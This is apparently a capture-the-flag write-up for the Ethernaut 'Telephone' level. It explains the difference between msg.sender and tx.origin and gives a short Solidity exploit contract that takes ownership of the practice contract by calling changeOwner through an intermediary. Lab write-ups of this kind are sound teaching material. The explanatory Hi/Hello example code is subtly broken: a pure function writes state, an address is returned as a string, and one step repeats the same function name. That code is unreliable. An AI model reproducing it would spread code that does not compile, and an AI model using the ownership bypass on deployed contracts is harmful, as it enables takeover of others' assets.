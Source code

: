 +++
date = '2024-10-23T00:58:41+05:30'
draft = false
title = 'Telephone'
categories=["Blockchain"]
series="Ethernaut"
tags=["msg.sender Vs tx.origin",]
+++

# Writeup for Telephone

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity well. For each challenge, they will deploy the contract and provide us with the instance of that contract. Our task is to interact with the contract and exploit it. Don't worry if you are completely new to Solidity and have never deployed a smart contract before. You can learn how to deploy a contract using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge

- Claim ownership of the contract below to complete this level.

### Contract Explanation

{{< collapsible "Click to view source contract" >}}

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

```

{{< /collapsible>}}

- If you feel like you understand the contract, you can move to the [exploit](#exploit) part. If you are a beginner, please go through the Contract Explanation as well. It will help you understand Solidity better.

- The contract has a single state variable called `owner`, which is initialized during the deployment of the contract.

```solidity
    constructor() {
        owner = msg.sender;
    }
```

- In the above code snippet, the constructor initializes the `owner` variable to `msg.sender`. In the context of the constructor, `msg.sender` refers to the address of the person deploying the contract.

```solidity
    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
```

- The function `changeOwner()` is a public function that takes an address parameter `_owner`. `_owner` is the address of the new proposed owner.

- The function checks if `tx.origin` and `msg.sender` are equal or not. If they are not equal, then the proposed `_owner` address will become the new owner of the contract.

- Now you might be wondering what `tx.origin` is. Don't worry, I'm here to explain.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Hi{
    address sender;
    Hello hello=Hello(0xd9145CCE52D386f254917e481eB44e9943F39138);

    function bye()public returns(string memory){
        sender=msg.sender;
        return hello.Goodbye();
    }

    function view_sender()public view returns(address){
        return sender;
    }

}

contract Hello{
    address origin;
    function Goodbye()public pure returns (string memory){
        origin=tx.origin;
        return msg.sender;
    }

    function view_origin()public returns(address){
        return origin;
    }
}


//Address of Hi: 0xf8e81D47203A594245E36C48e151709F0C19fBe8
//Address of Hello: 0xd9145CCE52D386f254917e481eB44e9943F39138

```

- Let's assume there are two contracts named **Hi** and **Hello**. The contract **Hi** has a function called `bye()` and **Hello** has a function called `Goodbye()`.

- When we deploy these two contracts and call the `bye()` function in contract **Hi**, the following will happen:

  - First, the `sender` variable will be updated to `msg.sender`. Here, `msg.sender` will be our address since we are calling the `bye()` function.

  - Then, it will call the `Goodbye()` function in the **Hello** contract and return the value returned by `Goodbye()`.

  - Next, `Goodbye()` will update the `origin` variable with `tx.origin` and then return `msg.sender`. Since the **Hi** contract is calling `Goodbye()` in the **Hello** contract, the `msg.sender` will be the address of the **Hi** contract.

  - `tx.origin` refers to the address that initiated the transaction. In this case, we called the `bye()` function initially. So, the `origin` variable in the **Hello** contract is set to our address, and it returns the address of the **Hi** contract.

  - When you are trying out call `view_origin()` and `view_origin()` to verify.

- If you are confused, you can open [Remix](https://remix.ethereum.org/) and try the above example. It will be much clearer.

- If you are unfamiliar with Remix, you can refer to this video tutorial: [Remix Tutorial](https://www.youtube.com/watch?v=WmeWbo7wzGI).

### Exploit

- The only condition we need to satisfy in the `changeOwner()` function is to make `tx.origin` not equal to `msg.sender`.

- Similar to the previous challenge, if we write an exploit contract and call the `changeOwner()` function from the exploit contract, then `msg.sender` will be the address of the exploit contract and `tx.origin` will be our wallet address.

{{< collapsible "Click to view the Exploit contract" >}}

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/contracts/Telephone.sol";

contract ExploitTelephone {
    Telephone public telephone;

    constructor(address _telephone) {
        telephone = Telephone(_telephone);
    }

    function Exploit(address _owner) public {
        telephone.changeOwner(_owner);
    }
}
```

{{< /collapsible>}}

In Remix, during deployment, we need to provide the address of the `Telephone` contract as an argument to the constructor of the exploit contract.

- Deploy the exploit contract and call the `Exploit()` function in the **ExploitTelephone** contract.

- Once the call is done, submit the challenge instance.

### Key Takeaways

- The difference between `msg.sender` and `tx.origin` is crucial in understanding Ethereum smart contract security:
  - `msg.sender`: This is the address of the immediate account (either a contract or an external account) that called the current function.
  - `tx.origin`: This is the address of the original externally owned account that initiated the transaction, regardless of how many contracts were called in between.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
